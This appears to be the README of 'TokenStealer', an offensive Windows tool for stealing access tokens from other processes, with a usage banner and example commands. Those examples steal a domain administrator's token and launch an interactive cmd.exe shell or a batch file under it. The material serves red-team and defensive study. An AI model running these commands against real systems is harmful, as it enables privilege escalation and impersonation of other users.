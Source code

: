 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br>
Clearly, you will require Impersonation or AssignPrimary privilege and Debug privilege to access all processes.<br>
Typically, you would run the tool with the highest local privileges, such as SYSTEM.
<br><br>
```
TokenStealer.exe
[+] My personal simple and stupid  Token Stealer... ;)
[+] v1.0 @decoder_it 2023

[!] Usage:
         -l: list all user's token
         -e: list all user's token with extended info -> [user]:[token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>]:[pid]:[SessionId]
         -p: <pid> list/steal  token from specfic  process pid
         -u: <user> list/steal token of user
         -c: <command> command to execute with token 
         -t: force use of impersonation Privilege 
         -b: <token level> needed token type: 1=Primary,2=Impersonation,3=Delegation 
         -s: <SessionId> list/steal token from specific Session ID

=Examples=

TokenStealer.exe -e -b 1 
-> list all primary tokens
TokenStealer.exe -l -p 100
-> list all tokens in process pid 100

TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe
-> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available

TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t
-> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary

TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1
-> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available

TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -s 2
-> steal a token of the user in specific SessionID and execute an interactive  command shell using the AssingPrimary privilege if available

```
<img src="https://github.com/decoder-it/TokenStealer/blob/master/Capture.PNG" alt="Alt text" title="Optional title">




